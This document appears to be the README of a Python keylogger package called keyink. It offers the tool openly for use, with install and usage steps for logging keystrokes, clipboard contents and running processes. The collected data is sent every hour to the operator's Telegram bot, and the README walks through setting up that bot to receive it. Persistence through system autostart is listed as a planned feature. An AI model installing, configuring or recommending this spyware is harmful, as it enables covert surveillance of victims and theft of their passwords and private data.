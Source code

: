 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

The keylogger in just 2 lines. Sending to Telegram.

## Description
`keyink` is just starting its development. Its functionality will be expanded in the future.

## Navigation
* [Current features](#Сurrent-features)
* [Future features](#Future-features)
* [Installation](#Installation)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
* [Telegram bot setup](#Telegram-bot-setup)
  * [Getting token](#Getting-token)
  * [Getting id](#Getting-id)

### Current features
1. Logging of keyboard, clipboard, running processes.
2. Sending collected data as an archive to Telegram.
3. Running in a separate thread.

### Future features
1. Adding other loggers.
2. Adding to the system autostart.
 
## Installation

You can install the latest version with the command:
```
pip install lgink==0.0.1
```

## Example usage
### Standard
```python
from lgink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID, iteration_pause=60).run()
```
The standard ```Logger``` launches all available loggers and sends the collected data as an archive to you in Telegram every hour.

Transmitted parameters:
* `token` - bot's Telegram token.
* `user_id` - your Telegram id.
* `keyboard` - add keyboard logger (True/False).
* `clipboard` - add a clipboard logger (True/False).
* `processes` - add process logger (True/False).
* `special_keys` - add special keys Enter, Shift, Alt etc. to logs (True/False).
* `pause_iteration` - check frequency of running processes in seconds.
* `sleep` - frequency of sending collected logs in seconds.

## Telegram bot setup
### Getting token
1. Open a chat with [BotFather](https://t.me/botfather).
2. Write the command ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Write the name of the bot, then the nickname with the attribute ```_bot``` at the end.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Insert the resulting token into the ```YOUR_TOKEN``` field in the script.

### Getting id
1. Open a chat with [Get My ID](https://t.me/getmyid_bot).
2. Write the command ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Insert the resulting ID into the ```YOUR_ID``` field in the script.
